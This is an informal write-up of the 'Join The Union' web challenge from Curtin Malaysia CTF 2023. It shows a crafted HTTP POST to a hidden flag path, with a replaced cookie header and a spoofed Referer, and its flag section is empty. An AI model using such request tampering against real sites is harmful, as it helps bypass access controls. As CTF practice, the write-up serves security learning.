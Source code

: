 # Join The Union

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/3c1fd080-3794-4f17-a84d-c587a2f7de29)

## Solution

For this challange its quite difficult for me but after I attempt many times I gain the flag

Soo first what I need its to intercept the register form

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/d19cfb0d-4d9f-4e69-a930-b9aefc7999f6)

From here we got secret directory soo I try to go there first time but error appear soo I need to modified my request 😊 so after I fix I got this 

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/66afc040-e204-4cd0-b19a-845a759691fc)

Basically at the login form it has appear `/path` so from that we modify it to request to get the flag

```
POST /g3t_53cR3t_fl4g HTTP/1.1
Host: curtinctfmy-1946797319.ap-southeast-2.elb.amazonaws.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://curtinctfmy-1946797319.ap-southeast-2.elb.amazonaws.com
Connection: close
53c43t: deeca476f2209104fe972a5ae37fd7bb5ad0ae30 (remove cookie and set this)
Referer: https://www.hackerman.play (change the refferer)
Upgrade-Insecure-Requests: 1

email=test%40gmail.co&psw=test&psw-repeat=test&remember=on
```

## Flag
